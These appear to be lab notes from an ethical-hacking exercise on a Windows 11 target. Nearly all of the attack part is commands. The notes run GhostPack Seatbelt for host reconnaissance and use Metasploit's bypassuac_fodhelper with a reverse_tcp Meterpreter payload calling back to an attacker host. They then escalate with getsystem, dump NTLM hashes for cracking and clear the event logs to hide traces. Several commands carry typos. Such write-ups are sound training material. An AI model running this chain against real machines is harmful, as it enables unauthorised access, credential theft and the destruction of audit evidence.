 	exit

b] **Use **GhostPack Seatbelt** tool to gather host information and perform security checks to find insecurities in the target system.**
[parrot]
copy **Seatbelt.exe** from shared folder to Desktop

	upload /home/attacker/Desktop/Seatbelt.exe 
	shell
	Seatbelt.ext -group=system [ To gather information about AMSIProviders, AntiVirus, AppLocker etc.]
	Seatbelt.ext -group=user [To gather information about ChromiumPresence, CloudCredentials, CloudSyncProviders, CredEnum, dir, DpapiMasterKeys etc.]
	Seatbelt.ext -group=misc [to gather information about ChromiumBookmarks, ChromiumHistory, ExplicitLogonEvents, FileInfo etc.]

![[Pasted image 20231110181316.png]]

	 exit

c] **Another method for Privilege escalation is to bypass the user account control setting (security configuration) using an exploit, and then to escalate the privileges using the Named Pipe Impersonation technique.**

check our current system privileges by executing the 
		
	meterpreter>run post/windows/gather/smart_hashdump -> Meterpreter session requires admin privileges to perform such actions.
                                                    	
                                                    	getsystem -t 1: Uses the service – Named Pipe Impersonation (In Memory/Admin) Technique.

Try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
[Note: In this task, we will bypass **Windows UAC protection** via the FodHelper Registry Key. It is present in Metasploit as a **bypassuac_fodhelper** exploit.]

	babckground  --> moves the current Meterpreter session to the background.
	use exploit/windows/local/bypassuac_fodhelper
	show options --> To know which options you need to configure in the exploit
	set SESSION 1
set payload windows/meterpreter/reverse_tcp
    set LHOST 10.10.1.13
set TARGET 0 -> 0 indicates nothing, but the Exploit Target ID
exploit
the BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine
>getuid
getsystem -t 1 ->switch to elevate privileges
[Note: If the command **getsystem -t 1** does not run successfully, issue the command **getsystem**.]
Check SYSTEM/admin privileges obtained?

	run post/windows/gather/smart_hashdump  -->extracts the NTLM hashes and displays them,
	[Note: You can further crack these password hashes to obtain plaintext passwords.]
	clearev -> to clear the event logs

Successfully escalated privileges by exploiting the Windows 11 machine’s vulnerabilities.
